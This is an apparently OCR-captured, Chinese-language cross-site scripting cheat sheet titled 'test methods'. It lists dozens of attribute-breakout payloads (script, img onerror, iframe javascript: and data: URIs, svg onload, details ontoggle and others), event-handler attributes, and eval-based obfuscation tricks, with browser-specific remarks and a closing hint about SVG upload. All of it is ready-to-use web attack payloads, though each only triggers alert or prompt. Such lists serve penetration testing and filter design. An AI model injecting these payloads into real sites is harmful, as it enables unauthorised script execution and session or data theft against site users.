 ## 测试方法

```html
"><script>alert(1)</script>
"><img src=x onerror=alert(1)>
"><img src=x onerror=prompt(1)>
"><img src=x onerror=eval(alert(1))>
"><video src=x onerror="javascript:alert(1)">
"><audio src=x onerror="javascript:alert(1)">
"><input autofocus onfocus=alert(1)>
"><select autofocus onfocus=alert(1)>
"><textarea autofocus onfocus=alert(1)>
"><keygen autofocus onfocus=alert(1)> // 仅限火狐浏览器。
"><button formaction="javascript:alert(1)">
"><input type="text" onkeypress="alert(1)">
"><iframe onload=alert(1);></iframe>
"><iframe src=javascript:alert(1)></iframe>
"><iframe src="data:text/html,<script>alert(1)</script>"></iframe>
"><iframe src="data:text/html;base64,<script>alert(1)</script>">
"><iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
"><iframe src="javascript&colon;prompt&lpar;1&rpar;"></iframe>
"><svg onload=alert(1)>
"><svg/onload=alert(1)>
"><body onload="alert(1)">
"><details ontoggle="alert(1);">
"><details open ontoggle="alert(1);">
"><select onfocus=alert(1)></select>
"><select onfocus=alert(1) autofocus>
"><textarea onfocus=alert(1) autofocus>
"><marquee onstart=alert(1)></marquee> // IE 和火狐浏览器。
"><isindex type=image src=1 onerror=alert(1)> // 仅限IE。
"></title><img src=x onerror=alert(1)> // 利用浏览器解析的优先级，将 title 闭合。
"><bgsound src="javascript:alert(1);">
"><br size="&{alert(1)}">
"><LINK rel="stylesheet" href="javascript:alert(1);">
"><object><a href="javascript:;">Child tag A</a></object> // 当是a标签的时候可以使用 object 标签。
"><body onpageshow=alert(1)>
"><form action=javascript:alert(1)><input type=submit>
```

* 使用属性

```html
" onclick=alert(1)
" onmouseonver=alert(1)
" onscroll=alert(1)
constructor.constructor('alert("XSS")')() # 使用表达式。
eval('~a~le~rt~~(~~1~~)~'.replace(/~/g, ''))
eval(\'~a~le~rt~~(~~1~~)~\'.replace(/~/g, \'\'))
eval(/~a~le~rt~~(~~1~~)~/.source.replace(/~/g, new String())) # 使用 new String() 来创建新的空字符串。
```

* 上传一个 svg 的文件，并访问，以此达成 XSS 攻击
